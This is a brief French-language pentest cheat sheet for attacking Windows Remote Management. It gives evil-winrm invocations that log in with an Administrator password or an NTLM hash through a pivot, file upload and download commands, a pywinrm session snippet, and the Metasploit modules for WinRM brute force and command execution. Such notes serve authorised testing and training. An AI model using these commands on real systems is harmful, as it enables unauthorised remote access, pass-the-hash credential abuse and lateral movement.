# WINRM

## evil-winrm

https://github.com/Hackplayers/evil-winrm

• Step 1. Clone the repo: 
git clone https://github.com/Hackplayers/evil-winrm.git

• Step 2. Ready. Just launch it! ~$ 
cd evil-winrm && 
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

ou

Step 1. Install it: gem install evil-winrm
Step 2. Ready. Just launch it! 

~$ evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'


### avec hash ntlm et à travers un pivot:

evil-winrm -i 172.16.1.20 -u katwamba -H 14a71f9e65448d83e8c63d46355837c3


### commandes pratiques:

upload <fichier>
download <fichier>


## pywinrm

sudo pip install pywinrm
python
session = winrm.Session('<IPorHost>', auth=('administrator','<password here>')


## brute force: metasploit:

use auxiliary/scanner/winrm/winrm_login

## lancer une commande

use auxiliary/scanner/winrm/winrm_cmd

## pivot sur windows

winrs -?
Enter-PSSession














